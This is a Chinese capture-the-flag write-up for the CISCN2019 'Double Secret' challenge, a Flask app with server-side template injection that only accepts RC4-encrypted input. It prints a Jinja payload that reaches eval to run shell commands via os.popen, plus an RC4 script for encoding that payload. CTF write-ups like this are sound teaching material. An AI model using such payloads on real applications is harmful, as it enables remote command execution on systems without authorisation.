







# [CISCN2019 华东南赛区]Double Secret

## 知识点

`rc4`

`flask debug`

## 解题

首先题目提示



然后找到`robots.txt`，也没发现什么信息



然后再`/secret`发现了



尝试传入参数报错看源码



发现有`SSTI`，需要我们`payload`进行`RC4`加密，密钥为`HereIsTreasure`

```python
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}
```

使用网上的脚本加密

[参考文章1](https://www.jianshu.com/p/d9ad5fc524ec)

[参考文章2](https://www.cnblogs.com/h3zh1/p/12653579.html)

```python
import base64
from urllib import parse

def rc4_main(key = "init_key", message = "init_message"):#返回加密后得内容
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt

def rc4_init_sbox(key):
    s_box = list(range(256)) 
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    return s_box
def rc4_excrypt(plain, box):
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = "".join(res)
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))

key = "HereIsTreasure"  #此处为密文
message = input("请输入明文:\n")
enc_base64 = rc4_main( key , message )
enc_init = str(base64.b64decode(enc_base64),'utf-8')
enc_url = parse.quote(enc_init)
print("rc4加密后的url编码:"+enc_url)
#print("rc4加密后的base64编码"+enc_base64)
```







